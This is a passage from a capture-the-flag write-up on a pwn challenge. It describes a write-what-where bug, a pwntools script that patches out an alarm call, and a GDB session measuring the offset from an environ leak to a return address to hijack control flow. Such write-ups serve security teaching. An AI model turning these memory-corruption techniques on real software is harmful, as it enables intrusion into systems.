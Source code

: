 ```c
  }
  rec_count = 0x16;
  return;
}
```

Ignore the menu, you can put in any pair of integers and to write a value to any writable location (`*puVar1 = uVar2;`).  IOW, _write-what-where_.

With all this in hand we can use GDB to compute the distance from the `environ` stack leak to the return address of `plant` and set it to address of `hidden_resources` to get the flag.

But first, lets get rid of that annoying alarm.


### No Alarm

```python
#!/usr/bin/env python3

from pwn import *

binary = ELF('./environment')
binary.write(0x401214,5*b'\x90') # alarm
binary.save('./environment_noalarm')
os.chmod('./environment_noalarm',0o755)
```

This will create a new binary without the `alarm`.  There are other ways to do this from the shell or GDB, but I just prefer to patch it out of the binary, and other things that annoy me as well like `usleep`, et al.


### Going the Distance

To compute the distance from `environ` to the return address that will get popped after `plant`, just set a breakpoint at `*plant` in GDB, run the program, then compute the delta:

```
# gef environment_noalarm
gef➤  b *plant
Breakpoint 1 at 0x401383
gef➤  run
Starting program: /pwd/datajerk/cyberapocalypsectf2021/save_the_environment/environment_noalarm

🌲 Save the environment ♻

            *
           ***
          *****
         *******
        *********
       ***********
      *************
     ***************
           | |
           | |
           | |


1. Plant a 🌲

2. Recycle ♻
> 1

gef➤  p/x (long)(environ)-(long)$rsp
$1 = 0x130
```